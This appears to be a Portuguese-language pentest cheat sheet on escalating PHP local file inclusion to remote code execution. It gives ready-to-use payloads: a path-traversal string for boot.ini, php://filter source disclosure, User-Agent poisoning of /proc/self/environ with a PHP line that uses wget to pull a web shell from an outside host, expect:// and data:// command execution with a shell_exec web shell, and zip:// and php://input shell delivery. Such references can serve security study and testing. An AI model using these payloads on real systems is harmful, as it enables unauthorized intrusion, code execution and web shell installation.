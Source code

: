 ex: **../../../../../boot.ini%00.php**

---

## From lfi to RCE


### => PHP://filter

Para LFI, podemos utilizar de funções internas do php, tais como filtros, para termos acesso à arquivos bloqueados por acesso comum e diretamente explicito, como scripts que possuam sintaxes executáveis.

ex: **http:localhost/app.php?param=php://filter/convert.base64-encode/resource=index.php**

O retorno esperado acima é a saída da conversão do conteúdo do script solicitado para codificação de bae64, qual pode ser exibido e revertido para acesso à source.

### => /proc/self/environ

Caso consiga incluir **/proc/self/environ** em seu alvo vulnerável, a execução do código pode ser aproveitada manipulando o parâmetro User-Agent com uma proxy qualquer. Após a introdução do código PHP, /proc/self/environ pode ser executado através do seu payload.

user-agent-ex: `<?system('wget http://algum-site/shell.txt -O shell.php');?>`

### => PHP://expect

Permite ao atacante executar comandos de sistema diretamente do vetor de ataque. Por infelicidade, esta função é desabilitada por padrão.

ex: **http://localhost/x.php?param=expect://ls**

uma mensagem de erro será exibida caso esteja desabilitada.

### => PHP://data

Também permite ao atacante executar comandos de sistema diretamente do vetor de ataque.

ex: `http://localhost/x.php?page=data:text/plain;,<?php echo shell_exec($_GET['cmd']);?>`

### => PHP://zip

Permite ao usuário realizar a descompressão de arquivos zipados no servidor.

1. Crie uma shell php

2. Comprima em um arquivo Zip

3. Envie a shell comprimida em ZIP para o servidor alvo

4. Extraia usando `php?page=zip://path/do/arquivo.zip%23shell`


### => PHP://input

Permite ao usuário enviar uma requisição POST com o conteúdo de uma shell reversa em seu corpo.
